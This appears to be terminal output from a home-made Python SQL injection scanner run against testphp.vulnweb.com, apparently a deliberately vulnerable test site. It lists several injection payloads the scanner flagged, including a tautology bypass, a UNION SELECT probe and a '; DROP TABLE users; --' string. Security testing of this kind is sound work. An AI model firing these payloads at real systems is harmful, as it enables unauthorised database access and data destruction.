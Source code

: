 # Output

(venv) aheaheeralaleralal@AHEERALALs-MacBook-Pro Python % /Users/aheaheeralaleralal/Desktop/Python/venv/bin/python /Users/aheaheeralaleralal/Desktop/Python/
SQLi.py
Enter the URL of the web application to test: http://testphp.vulnweb.com/search.php?test=query

Enter the parameter to inject into (e.g., 'username', 'search'): searchFor

Enter HTTP method (GET/POST): POST

[+] Potential SQL injection vulnerability found with payload: ' OR 1=1 --

    Response contains SQL error or unexpected message
    
    Test URL: http://testphp.vulnweb.com/search.php?test=query
    
[+] Potential SQL injection vulnerability found with payload: ' OR 'a'='a' --

    Response contains SQL error or unexpected message
    
    Test URL: http://testphp.vulnweb.com/search.php?test=query
    
[+] Potential SQL injection vulnerability found with payload: '; DROP TABLE users; --

    Response contains SQL error or unexpected message
    
    Test URL: http://testphp.vulnweb.com/search.php?test=query
    
[+] Potential SQL injection vulnerability found with payload: ' UNION SELECT null, null, null --

    Response contains SQL error or unexpected message
    Test URL: http://testphp.vulnweb.com/search.php?test=query
[+] Potential SQL injection vulnerability found with payload: ' AND 1=2 --
    Response contains SQL error or unexpected message
    Test URL: http://testphp.vulnweb.com/search.php?test=query

